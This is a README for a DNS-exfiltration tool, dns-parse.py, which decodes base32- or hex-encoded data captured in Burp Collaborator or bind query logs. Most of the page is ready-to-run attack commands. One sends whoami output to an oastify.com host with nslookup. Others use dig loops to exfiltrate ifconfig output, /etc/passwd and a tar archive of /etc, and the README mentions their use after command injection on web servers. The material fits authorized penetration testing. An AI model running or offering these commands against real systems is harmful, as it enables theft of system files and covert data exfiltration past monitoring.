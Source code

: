 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to decode base32 or hex-encoded exfiltrated data. 

Burp Collaborator allows prepending hostnames to the provided address. For example: assume this is your collaborator address: `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

You may prepend names (maximum length of a DNS label is 63 bytes), assuming it uses characters safe in a DNS query (such as base32-encoded data, see below). You may also prepend multiple names, as long as the entire request is 253 bytes or less. This allows exfiltration (including blind exfiltration) of data via DNS. Works best with a private Burp Collaborator server (or any DNS server that logs queries). You may also do this with a public server and a sniffer such as tcpdump (no DNS server required). I plan to add pcap support in the future.

Exfiltrate the base32-encoded output from `whoami` via Burp Collaborator:

Command:

`a=$(whoami|base32|tr -d =);nslookup $a.q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

Burp Collaborator response:

`O53XOLLEMF2GCCQ.q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

![Screen Shot 2023-01-10 at 2 59 05 PM](https://user-images.githubusercontent.com/14989334/211650128-5d6a8562-3d64-4ec8-b530-bc47ae5a0db0.png)

`dns-parse.py` parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee` (requires "logLevel" : "DEBUG" in collaborator.config):

```
java -jar /root/collaborator/burpsuite_pro.jar --collaborator-server | tee /root/collaborator/collaborator.log
```

Assumes hostnames are encoded in base32 (`A-Z`, `2-7`), which is the most efficent native encoding utility (on most Linux/Unix systems) that is safe for DNS queries. The `=` character (used to pad base32-encoded data to an 8 byte boundary) is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` appends any missing `=` characters.

Hex encoding is also safe for DNS queries (but is less efficient). I plan to add hex support in the future. base64 does not work due to `/` and `+`.

Thanks and credit to [Xavier Mertens](https://www.sans.org/profiles/xavier-mertens/) for his excellent [Internet Storm Center](https://isc.sans.edu/) post: [DNS Query Length... Because Size Does Matter](https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326)

## Use cases (bash):

Note that if results are unreliable you can specify the name or IP of the DNS server via `dig @`...

In the examples below: `<DNS Name>` is the random name provided by Burp Collaborator (AKA, the interaction ID). For example: use `q3uv485lz802ad6a7xz6c2izvq1hp6` if your Beef Collaborator address is `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`.

### Send STDOUT from a command:

```
ifconfig | base32 -w 63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode the output:
```
dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d
```

### Exfiltrate a file:

```
base32 -w 63 < /etc/passwd | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode the file:
```
dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d
```

### Exfiltrate a compressed file:

```
gzip - < /etc/passwd | base32 -w 63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode/unzip the file:
```
dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d | zcat
```

### Exfiltrate a compressed tar archive of a directory:

Note that exfiltrating /etc on an Ubuntu Linux system worked (but was slow). It took 35 minutes, requiring 45,382 DNS requests, resulting in a 1.8 megabyte tar.gz file. Needless to say: the files/directories contained in the archive are restricted by the permissions of the running user. For command injection on web sites (using an account such as apache or www-data), many files/directories will likely be missing.

```
tar czf - /etc | base32 -w 63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode/save the tar archive:
```
dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d > exfiltrated.tgz
```

## Sample Logs

[collaborator1.log](collaborator1.log) (STDOUT exfiltration):
```
dns-parse.py qysipx9bbnhv0u5ez2dkmzuh68cy0n collaborator1.log | base32 -d
```

[collaborator2.log](collaborator2.log) (/etc/passwd exfiltration):
```
dns-parse.py 165cmzb1cu1m3wso0k1k3udr7id91y collaborator2.log | base32 -d 
```

[collaborator3.log](collaborator3.log) (gzipped /etc/passwd exfiltration):
```
dns-parse.py l9vn8f4xr94q4f8j3t6ba8i5bwhm5b collaborator3.log | base32 -d | zcat
```

## Hex Support

Hex support is coming, here's how to send hex-encoded data. Note that the `-p` flag is 'output  in  postscript  continuous  hexdump style', and `-c31` is count of 31 hex characters (62 bytes sent).

Send STDOUT:
```
ifconfig | xxd -p -c31 | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Send a file:
```
xxd -p -c31 < /etc/passwd | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Send a compressed file:
```
gzip - < /etc/passwd | xxd -p -c31 | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Send a compressed tar archive:
```
tar czf - /etc | xxd -p -c31 | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode (using bash):
```
grep <DNS Name> collaborator.log| cut -d\[ -f3 | cut -d \. -f1 | tr -d '\n' | xxd -r -p
```
